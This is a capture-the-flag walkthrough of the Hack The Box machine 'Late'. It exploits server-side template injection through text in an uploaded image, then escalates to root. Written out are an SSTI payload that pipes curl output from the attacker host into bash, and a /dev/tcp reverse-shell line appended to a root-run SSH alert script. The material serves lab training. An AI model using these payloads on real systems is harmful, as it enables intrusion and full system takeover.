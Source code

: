 ```yaml
---
layout: post
title: "[HTB] Late"
difficulty: easy
tags: [ssti]
status: Complete
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.156 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Server-Side Template Injection |
| **Tools Used** |  |
| **Techniques Used** |  |
| **Interesting Files** |  |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | nginx 1.14.0 (Ubuntu) |

***

## Walk-through

Visiting the website leads us to a simple landing page with marketing materials for an online photo editor. Going through the pages within the site gives us a link to `images.late.htb`, which we can include in our `/etc/hosts` file to browse.

### Server-Side Template Injection

The `images.late.htb` site contains an Image to Text conversion application. It uses some Optical Character Recognition (OCR) library to detect any text from an image, and return it back in the response. This application seems to be an implementation of [lucadibello/ImageReader](https://github.com/lucadibello/ImageReader), which renders the `text` output using the `render_template` function.

``` python
@app.route('/result')
def result():
    if "data" in session:
        data = session['data']
        return render_template(
            "result.html",
            title="Result",
            time=data["time"],
            text=data["text"],
            words=len(data["text"].split(" "))
        )
    else:
        return "Wrong request method."
```
{% raw %}
In Flask, the `render_template` function allows us to evaluate expressions using the `{{ ... }}` syntax. For example, mathematical expressions such as `{{7*7}}` would be evaluated and would result in an output of `49`. We can use this technique to execute code using the Flask engine.

We can create and image that simply says: `{{7*7}}`, and just as we thought, it gave us the following response, confirming the Server-Side Template Injection:

``` html
<p>49
</p>
```

This required a lot of tinkering of the image to get the exploit to work. The OCR was not particularly consistent, so a lot of characters were interpreted differently. In the end, I was able to create an image with the following payload to successfully create a reverse shell connection back to my machine:

``` python
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("curl 10.10.10.10 | bash".read() }}
```
{% endraw %}
 **TIP:** I hosted a Reverse-Shell Bash script in an HTTP server so that it can pipe that over to `bash` after `curl`ing it.

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us back an interesting script file: `/usr/local/sbin/ssh-alert.sh`. This seems to sends an email notification to `root@late.htb` whenever an SSH login is detected.

``` bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

When we check the file, it's actually owned by our current user `svc_acc`. So, we can change the script and it will execute our code when an SSH login is detected. However, when we try doing so, we are blocked because the `a` attribute for the file is set, meaning we can only append to it.

```
svc_acc@late:~$ ls -l /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 Jul 25 21:01 /usr/local/sbin/ssh-alert.sh

svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

We can simply append a reverse-shell command to the `ssh-alert.sh` script to connect back to our machine. But first, we need to be able to login using SSH first. To do so, we can get the SSH private key of `svc_acct` from `home/svc_acc/.ssh/id_rsa` and copy it over to our machine.

```
svc_acc@late:/usr/local/sbin$ echo "bash -i >& /dev/tcp/10.10.10.10/37117 0>&1" >> ssh-alert.sh
```

Finally, we can then listen for the reverse-shell connection and use the private key of the `svc_acct` (`id_rsa`) to login through SSH, triggering the code we appended.

```
$ nc -nlvp 37117
listening on [any] 37117 ...
connect to [10.10.10.10] from late.htb [10.10.11.156] 41502
bash: cannot set terminal process group (1975): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# whoami
root
```
***And, we're done!***
